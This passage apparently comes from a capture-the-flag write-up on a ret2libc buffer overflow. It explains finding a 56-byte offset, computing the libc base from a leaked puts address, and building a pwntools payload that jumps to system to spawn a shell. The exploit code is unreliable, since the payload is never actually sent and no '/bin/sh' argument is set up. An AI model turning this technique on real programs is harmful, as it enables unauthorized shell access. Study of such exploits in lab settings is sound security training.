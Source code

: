 And viola, we got the offset of `56`!

## Part V: Calculating the address of system

Since there is no function within the program that allows us to view the flag, we have to somehow spawn a shell and read the flag. Thankfully, we have the `system` function in `libc` that can help us do this. It is achieved by calling `system("/bin/sh")`.

Let's once again employ the help of `pwntools` to do this.

```py
# Calculate the base address of libc by calculating the
# difference between the program's puts and libc's puts
libc.address = int(puts_addr.decode(), 0)  - libc.symbols.puts

# Craft our payload
payload = flat([
    "\x00" * 56,  # Remember, we calculated our offset to be 56
    p64(libc.symbols.system)
])

# Send payload and allow us to interact with the program
p.sendline()
p.interactive()
```

If we debug the program once more, we see that our stack pointer now points at `system`, which will be popped into `RIP` to be executed.

![points at system](points_at_system.png)
